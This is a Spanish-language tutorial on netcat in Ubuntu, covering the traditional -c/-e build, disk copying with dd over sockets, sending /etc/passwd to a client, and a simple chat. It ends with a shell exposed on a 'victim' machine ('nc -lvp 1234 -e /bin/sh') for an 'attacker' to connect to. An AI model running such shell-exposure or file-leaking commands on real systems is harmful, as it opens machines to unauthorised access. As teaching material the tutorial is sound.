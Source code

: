 En Ubuntu se distribuyen dos versiones de netcat. Por defecto se distribuye la versión BSD que no incorpora los parámetros -c/-e para la ejecución de comandos. Para ejecutar comandos con esta versión hay que acudir a las tuberías estándar de Unix y por tanto la comunicación no es completa (o bien la salida del comando se envía por el socket, o bien lo que entre por el socket se envía por salida estándar y lo recibe un comando, pero nunca ambas cosas). Para emplear
los parámetros -c/-e hay que emplear la versión tradicional de netcat que se instala con los siguientes comandos (como root):

```bash
apt-get install netcat-traditional
update-alternatives --config nc #seleccionar nc.traditional
```

La funcionalidad de Netcat es bastante amplia y hace de él una herramienta especialmente interesante para detectar problemas en los protocolos de capa de aplicación. Es especialmente importante tener en cuenta que para crear un socket de servidor en puertos por debajo de 1023 será necesario contar con permisos de root. Algunos ejemplos para ver y comprobar cuestiones de HTTP se muestran abajo.

Servidor: `nc -l -p 2000 -c "(dd if=/dev/sda1 bs=512)"` Cliente `nc 192.168.112.1 2000 -c "(dd of=/dev/sdb1 bs=512)"`  
Servidor: `nc -l -p 80 -c "(/usr/bin/dd if=/dev/sda1 bs=512 | bzip2)"` Cliente: `nc 192.168.112.1 2000 -c "(bzip2 -d | dd of=/dev/sdb1 bs=512)"`  
Servidor: `nc -l -p 2000 < /etc/passwd` Cliente: `nc 192.168.112.1 2000 > passwd`

Otra posibilidad más básica es crear un chat conversacional basado en cliente-servidor y sin ningún tipo de protocolo de capa de aplicación. Hay que tener en cuenta que con netcat, los mensajes se envían justo después de añadir un retorno de carro.

Servidor:

```bash
nc -l -p 2000
Hola
Qué tal?
```

Cliente:

```bash
nc 192.168.112.1 2000
Hola
Qué tal?
```

Por otra parte, existe la posibilidad de generar un shell inverso entre máquina cliente y servidor de la siguiente forma.

Máquina servidor o víctima:

```bash
nc -lvp 1234 -e /bin/sh &
```

Máquina cliente o atancante:

```bash
nc <IP_VICTIMA> 1234
```
